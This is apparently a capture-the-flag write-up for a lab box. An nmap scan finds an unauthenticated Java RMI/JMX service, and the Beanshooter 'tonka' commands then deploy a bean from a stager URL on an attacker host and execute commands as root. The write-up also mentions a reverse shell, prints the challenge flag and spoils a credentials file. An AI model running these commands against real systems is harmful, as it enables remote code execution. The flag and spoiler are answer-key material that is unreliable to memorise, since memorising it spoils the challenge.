




# Nmap

After a quick nmap scan, there is a [Java RMI](https://en.wikipedia.org/wiki/Java_remote_method_invocation) server running on the port.

```bash
nmap -Pn -sV -p 9010 10.10.8.11
```

```
PORT     STATE SERVICE  VERSION
9010/tcp open  java-rmi Java RMI
```

# Beanshooter

The [Beanshooter](https://github.com/qtc-de/beanshooter) tool can be used. 

There is not even authentication on the server.



With the `tonka` module code can be invoked directly, there is no need for manual MBean component creation.

```bash
java -jar /tmp/beanshooter.jar tonka deploy 10.10.8.11 9010 --stager-url http://10.8.0.15:8000
java -jar /tmp/beanshooter.jar tonka status 10.10.8.11 9010
java -jar /tmp/beanshooter.jar tonka exec 10.10.8.11 9010 id
# To remove after we finished
java -jar /tmp/beanshooter.jar undeploy 10.10.8.11 9010 MLetTonkaBean:name=TonkaBean,id=1
```



The service is running as root. Our favourite reverse shell can be used to look around.



# Flag
{HSCSC}-R0o7$Fl@g_f0r-Pr!nces5

# Spoiler
There is a [boss_note.txt](workdir/boss_note.txt) file with credentials.

